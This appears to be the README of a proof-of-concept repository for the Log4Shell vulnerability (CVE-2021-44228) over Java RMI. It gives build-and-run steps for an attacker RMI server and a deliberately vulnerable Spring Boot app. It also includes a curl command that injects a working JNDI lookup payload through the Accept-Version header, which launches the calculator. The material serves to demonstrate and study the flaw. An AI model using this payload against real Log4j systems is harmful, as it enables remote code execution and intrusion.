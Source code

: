 # log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

As you can see the the vulnerable app calls the Calculator app.

![exploit](./exploit.png)

## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
https://www.lunasec.io/docs/blog/log4j-zero-day/
